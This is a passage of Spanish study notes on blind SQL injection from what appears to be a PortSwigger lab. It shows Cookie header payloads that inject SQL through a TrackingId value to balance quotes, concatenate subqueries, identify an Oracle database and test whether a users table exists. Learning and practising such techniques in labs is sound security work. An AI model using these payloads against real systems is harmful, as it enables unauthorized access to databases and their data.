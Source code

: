 Si ponemos doble comilla vemos que no hay problema (porque una comilla cierra a la otra)
````bash
Cookie: TrackingId=JgQA6kbAN7r6UaxJ''; session=YWeKDUpVxNbxzozrsWD912CB8PUi81vQ
````

Así que podemos **concadenar** las querys con los pipe ( || )
Si da fallo, puede ser porque la base de datos ==no sea MySQL==
````bash
Cookie: TrackingId=JgQA6kbAN7r6UaxJ'||(select '')||'; session=YWeKDUpVxNbxzozrsWD912CB8PUi81vQ
````

 Lo anterior es para una base de datos de **MySQL**, en cambio si es en **Oracle** se necesita una tabla
````bash
Cookie: TrackingId=JgQA6kbAN7r6UaxJ'||(select '' from dual)||'; session=YWeKDUpVxNbxzozrsWD912CB8PUi81vQ
````
Bingo!
Aquí no da un internal error así que sabemos que es una base de datos Oracle

### Como saber si una tabla existe
Una vez adivinemos contra el gestor de base de datos que nos enfrentamos hay una forma en Oracle para comprobar si una tabla existe.

Utilizando **rownum** podemos ver si la tabla existe, en cambio si pruebas sin la condición verás que no funciona y salta un internal error, en caso de que funcione salta un **200 ok**

````bash
Cookie: TrackingId=KAPPr2mC0F4R2seB'||(select '' from users where rownum=1)||'; session=rqZptxbdCDXAH7vKSE7H0pwDm9jM7t3s
````



[Vídeo de s4vi](https://www.youtube.com/watch?v=C-FiImhUviM&t=6484s) 2:12:52, en realidad 2:13:21, pero empezarlo en 2:12 para volver a entenderlo


# Herramientas de automatización
Sqlmap

# Fuentes
Laboratorio Portwsigger
[S4vitar](https://www.youtube.com/watch?v=C-FiImhUviM&list=PLWys0ZbXYUy4WG1HQEtg90-bspFWjExPy)
[Cheat sheet de portswigger](https://portswigger.net/web-security/sql-injection/cheat-sheet)
